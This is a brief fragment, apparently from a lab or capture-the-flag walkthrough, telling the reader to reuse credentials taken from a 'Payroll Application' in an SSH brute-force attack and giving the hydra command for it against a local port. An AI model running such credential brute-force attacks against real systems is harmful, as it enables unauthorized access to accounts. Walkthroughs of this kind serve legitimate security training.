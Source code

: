 1. After extracting credentials from the Payroll Application, use the credentials to run a bruteforce attack.

```
hydra -L user.txt -P pass.txt ssh://127.0.0.1:2222
```
